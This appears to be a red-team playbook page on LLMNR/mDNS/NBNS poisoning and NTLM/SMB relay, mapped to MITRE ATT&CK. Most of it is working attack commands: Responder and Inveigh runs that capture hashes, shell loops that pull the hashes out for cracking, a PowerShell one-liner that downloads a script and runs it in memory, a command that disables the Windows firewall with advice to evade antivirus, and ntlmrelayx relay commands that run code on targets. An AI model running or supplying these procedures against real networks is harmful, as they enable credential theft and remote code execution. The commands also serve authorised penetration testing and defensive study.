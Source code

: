 
# LLMNR/mDNS/NBNS poisonning and SMB relay

## Overview

MITRE ATT&CK mapping: [T1557.001](https://attack.mitre.org/beta/techniques/T1557/001/)

Reference:

```
LLMNR protocol: https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution
mDNS protocol: https://en.wikipedia.org/wiki/Multicast_DNS
NBNS protocol: https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP#Name_service
```

## Procedures

### Classic Responder LLMNR/mDNS/NBNS poisonning

```
# most lightweight version: poisonning + capturing requests only to SMB
Responder.py -I eth0 -f

# as aobove + acting as WPAD web proxy
Responder.py -I eth0 -wrf

# also forces users to provide their creds on WPAD
Responder.py -I eth0 -wfFbv
```

Extracting unique hashes:

```
# extract hash names:
cat /usr/share/responder/logs/*.txt | awk -F'::' '{print $1}' | sort -u

# extract hash contents:
for hash in $(cat /usr/share/responder/logs/*.txt | awk -F'::' '{print $1}' | sort -u); do echo $hash; grep $(tr -d '$' <<<"$hash") /usr/share/responder/logs/*.txt | tail -1; done

# save hashes in a file for cracking: 
for hash in $(cat /usr/share/responder/logs/*.txt | awk -F'::' '{print $1}' | sort -u); do grep $(tr -d '$' <<<"$hash") /usr/share/responder/logs/*.txt | tail -1; done  | cut -d':' -f2- | tee hashes.txt
```

### PowerShell DNS/LLMNR/mDNS/NBNS poisonning

```
# details:
# https://github.com/Kevin-Robertson/Inveigh/
# https://github.com/Kevin-Robertson/Inveigh/wiki/Basics
Invoke-WebRequest -Uri https://github.com/Kevin-Robertson/Inveigh/archive/Inveigh-master.zip -OutFile Inveigh-master.zip

OR (how's this differnet?):

# downloading Inveigh in PowerShell and loading it into memory with:
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# unzip (when .NET Framework 4.5 is available):
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression.FileSystem')
[System.IO.Compression.ZipFile]::ExtractToDirectory(".\Inveigh-master.zip", ".\Inveigh-master")

# source your PS scripts
cd .\Inveigh-master; cd .\Inveigh-master; . .\Inveigh.ps1

# turn off win firewall (also antivirus should be turned off or evaded):
netsh advfirewall set  allprofiles state off

# run in poisoning mode (Needs PS console with admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTPS Y -Proxy Y -FileOutput Y

# run in limited poisoning mode (no admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -FileOutput Y

# to stop:
Stop-Inveigh
```

### NetNTLM Relay: classic

Prereq for success: 

1. SMB signing must not be enforced (i.e. one of the machines in the conversation must have `message_signing: disabled (dangerous, but default)` as a result of `nmap --script smb-security-mode -p445 192.168.12.0`)
2. For optimal impact (i.e. RCE) owner of the credetnials that are being relayed must have Local Admin privileges on target machine

**With Responder + impacket's ntlmrealyx/smbrealyx**

In `Responder.conf`:

```
; Servers to start
SQL = Off
SMB = Off
RDP = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = Off
HTTPS = Off
DNS = Off
LDAP = Off
```

Start responder: 

    responder -I eth0 -f -v

Start ntlmrelayx:

    impacket-ntlmrelayx -t smb://<ip-to-relay-to> --enum-local-admins -smb2support -c 'whoami /all' -debug

Reference:

    https://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/
    https://speakerdeck.com/ropnop/fun-with-ldap-kerberos-and-msrpc-in-ad-environments

**With Inveigh**

Capabilities:

NTLMv1/NTLMv2 HTTP/HTTPS/Proxy -> SMB2.1 relay

Procedure:

```
# we don't launch listener on HTTP as Invoke-InveighRelay will listen on it
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTP N

# Prepare command to execute (e.g. launcher for C2 Empire):
TODO

# launch Relay (as cmd provide launcher command form Empire):
Invoke-InveighRelay -ConsoleOutput Y -StatusOutput N -Target <ip-to-relay-to> -Command <cmd-to-execute>
```

### Notes

Other tools:

```
https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/
https://github.com/SecureAuthCorp/impacket
```

## OPSEC considerations

## Counter-countermeasures
